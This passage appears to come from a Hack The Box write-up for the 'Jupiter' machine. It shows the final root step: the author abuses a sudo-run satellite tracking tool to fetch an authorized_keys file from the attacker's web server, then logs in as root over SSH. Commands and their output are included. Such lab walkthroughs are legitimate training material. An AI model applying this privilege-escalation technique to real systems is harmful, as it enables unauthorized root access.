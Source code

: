 
When I run this, there’s a a hit at my webserver:

    
    
    10.10.11.216 - - [31/Aug/2023 21:16:10] "GET /authorized_keys HTTP/1.1" 200 -
    

It reports that it got the file, but then complains that it wasn’t a valid
file, likely because it isn’t formatted as expected.

    
    
    jovian@jupiter:~$ sudo sattrack 
    Satellite Tracking System
    Get:0 http://10.10.14.6/authorized_keys
    tlefile is not a valid file
    jovian@jupiter:~$ 
    

Still, it must have written, as I can now log in as root over SSH:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@jupiter.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
    ...[snip]...
    root@jupiter:~#
    

[](/2023/10/21/htb-jupiter.html)

